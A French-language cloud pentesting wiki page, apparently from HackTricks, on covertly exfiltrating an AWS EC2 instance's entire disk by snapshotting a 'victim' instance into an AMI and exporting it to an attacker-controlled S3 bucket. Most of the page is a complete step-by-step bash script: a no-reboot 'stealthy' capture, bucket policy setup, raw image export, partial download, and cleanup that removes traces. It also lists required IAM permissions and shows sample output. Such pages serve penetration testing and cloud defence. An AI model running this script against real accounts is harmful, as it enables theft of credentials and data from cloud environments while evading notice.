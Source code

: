 # AWS – Covert Disk Exfiltration via AMI Store-to-S3 (CreateStoreImageTask)

{{#include ../../../../banners/hacktricks-training.md}}

## Résumé
Abuse EC2 AMI export-to-S3 pour exfiltrer le disque complet d'une instance EC2 en tant qu'image raw unique stockée dans S3, puis la télécharger par un canal hors bande. Cela évite le partage de snapshots et produit un objet par AMI.

## Prérequis
- EC2: `ec2:CreateImage`, `ec2:CreateStoreImageTask`, `ec2:DescribeStoreImageTasks` sur l'instance/AMI cible
- S3 (même Région): `s3:PutObject`, `s3:GetObject`, `s3:ListBucket`, `s3:AbortMultipartUpload`, `s3:PutObjectTagging`, `s3:GetBucketLocation`
- Capacité KMS de décryptage sur la clé qui protège les snapshots AMI (si le chiffrement par défaut EBS est activé)
- S3 bucket policy qui fait confiance au service principal `vmie.amazonaws.com` (voir ci-dessous)

## Impact
- Acquisition complète hors ligne du disque racine de l'instance dans S3 sans partager les snapshots ni copier entre comptes.
- Permet une analyse forensique discrète des identifiants, de la configuration et du contenu du système de fichiers à partir de l'image raw exportée.

## How to Exfiltrate via AMI Store-to-S3

- Remarques :
- Le bucket S3 doit être dans la même Région que l'AMI.
- Dans `us-east-1`, `create-bucket` NE doit PAS inclure `--create-bucket-configuration`.
- `--no-reboot` crée une image crash-consistent sans arrêter l'instance (plus discret mais moins cohérent).

<details>
<summary>Commandes étape par étape</summary>
```bash
# Vars
REGION=us-east-1
INSTANCE_ID=<i-victim>
BUCKET=exfil-ami-$(date +%s)-$RANDOM

# 1) Create S3 bucket (same Region)
if [ "$REGION" = "us-east-1" ]; then
aws s3api create-bucket --bucket "$BUCKET" --region "$REGION"
else
aws s3api create-bucket --bucket "$BUCKET" --create-bucket-configuration LocationConstraint=$REGION --region "$REGION"
fi

# 2) (Recommended) Bucket policy to allow VMIE service to write the object
ACCOUNT_ID=$(aws sts get-caller-identity --query Account --output text)
cat > /tmp/bucket-policy.json <<POL
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "AllowVMIEPut",
"Effect": "Allow",
"Principal": {"Service": "vmie.amazonaws.com"},
"Action": [
"s3:PutObject", "s3:AbortMultipartUpload", "s3:ListBucket",
"s3:GetBucketLocation", "s3:GetObject", "s3:PutObjectTagging"
],
"Resource": [
"arn:aws:s3:::$BUCKET",
"arn:aws:s3:::$BUCKET/*"
],
"Condition": {
"StringEquals": {"aws:SourceAccount": "$ACCOUNT_ID"},
"ArnLike": {"aws:SourceArn": "arn:aws:ec2:$REGION:$ACCOUNT_ID:image/ami-*"}
}
}
]
}
POL
aws s3api put-bucket-policy --bucket "$BUCKET" --policy file:///tmp/bucket-policy.json

# 3) Create an AMI of the victim (stealthy: do not reboot)
AMI_ID=$(aws ec2 create-image --instance-id "$INSTANCE_ID" --name exfil-$(date +%s) --no-reboot --region "$REGION" --query ImageId --output text)

# 4) Wait until the AMI is available
aws ec2 wait image-available --image-ids "$AMI_ID" --region "$REGION"

# 5) Store the AMI to S3 as a single object (raw disk image)
OBJKEY=$(aws ec2 create-store-image-task --image-id "$AMI_ID" --bucket "$BUCKET" --region "$REGION" --query ObjectKey --output text)

echo "Object in S3: s3://$BUCKET/$OBJKEY"

# 6) Poll the task until it completes
until [ "$(aws ec2 describe-store-image-tasks --image-ids "$AMI_ID" --region "$REGION" \
--query StoreImageTaskResults[0].StoreTaskState --output text)" = "Completed" ]; do
aws ec2 describe-store-image-tasks --image-ids "$AMI_ID" --region "$REGION" \
--query StoreImageTaskResults[0].StoreTaskState --output text
sleep 10
done

# 7) Prove access to the exported image (download first 1MiB)
aws s3api head-object --bucket "$BUCKET" --key "$OBJKEY" --region "$REGION"
aws s3api get-object --bucket "$BUCKET" --key "$OBJKEY" --range bytes=0-1048575 /tmp/ami.bin --region "$REGION"
ls -l /tmp/ami.bin

# 8) Cleanup (deregister AMI, delete snapshots, object & bucket)
aws ec2 deregister-image --image-id "$AMI_ID" --region "$REGION"
for S in $(aws ec2 describe-images --image-ids "$AMI_ID" --region "$REGION" \
--query Images[0].BlockDeviceMappings[].Ebs.SnapshotId --output text); do
aws ec2 delete-snapshot --snapshot-id "$S" --region "$REGION"
done
aws s3 rm "s3://$BUCKET/$OBJKEY" --region "$REGION"
aws s3 rb "s3://$BUCKET" --force --region "$REGION"
```
</details>

## Exemple de preuve

- `describe-store-image-tasks` transitions:
```text
InProgress
Completed
```
- S3 métadonnées d'objet (exemple):
```json
{
"AcceptRanges": "bytes",
"LastModified": "2025-10-08T01:31:46+00:00",
"ContentLength": 399768709,
"ETag": "\"c84d216455b3625866a58edf294168fd-24\"",
"ContentType": "application/octet-stream",
"ServerSideEncryption": "AES256",
"Metadata": {
"ami-name": "exfil-1759887010",
"ami-owner-account": "<account-id>",
"ami-store-date": "2025-10-08T01:31:45Z"
}
}
```
- Téléchargement partiel prouve l'accès à l'objet:
```bash
ls -l /tmp/ami.bin
# -rw-r--r--  1 user  wheel  1048576 Oct  8 03:32 /tmp/ami.bin
```
## Autorisations IAM requises

- EC2 : `CreateImage`, `CreateStoreImageTask`, `DescribeStoreImageTasks`
- S3 (sur le bucket d'export) : `PutObject`, `GetObject`, `ListBucket`, `AbortMultipartUpload`, `PutObjectTagging`, `GetBucketLocation`
- KMS : Si les snapshots AMI sont chiffrés, autoriser decrypt pour la EBS KMS key utilisée par les snapshots

{{#include ../../../../banners/hacktricks-training.md}}
